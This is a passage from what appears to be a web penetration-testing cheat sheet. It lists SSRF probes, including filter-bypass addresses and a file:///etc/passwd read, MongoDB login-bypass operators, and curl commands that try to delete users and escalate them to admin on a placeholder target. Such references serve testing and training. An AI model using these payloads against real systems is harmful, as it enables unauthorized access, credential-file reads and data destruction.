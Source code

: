 ### Server-Side Request Forgery (SSRF)
```bash
# Basic SSRF tests
http://<target>/page.php?url=http://127.0.0.1:22
http://<target>/page.php?url=http://127.0.0.1:80
http://<target>/page.php?url=file:///etc/passwd

# Bypass filters
http://<target>/page.php?url=http://localhost
http://<target>/page.php?url=http://0.0.0.0
http://<target>/page.php?url=http://[::1]
http://<target>/page.php?url=http://127.1
```

### NoSQL Injection
```javascript
// MongoDB injection
{"$ne": null}
{"$regex": ".*"}
{"$exists": true}

// URL encoded
username[$ne]=null&password[$ne]=null
```

### API Testing
```bash
# Test different HTTP methods
curl -X GET http://<target>/api/users
curl -X POST http://<target>/api/users -d '{"username":"admin","password":"password"}'
curl -X PUT http://<target>/api/users/1 -d '{"role":"admin"}'
curl -X DELETE http://<target>/api/users/1

# Test for API versioning
curl http://<target>/api/v1/users
curl http://<target>/api/v2/users
curl http://<target>/v1/api/users

# Parameter pollution
curl "http://<target>/api/users?id=1&id=2"
```

## Common Mistakes to Avoid

### 1. Not Checking Basic Files
❌ Skipping robots.txt, sitemap.xml, .htaccess
✅ Always check these files first - they often reveal hidden directories

### 2. Using Only Automated Tools
❌ Relying solely on dirsearch/gobuster
✅ Combine automated tools with manual testing
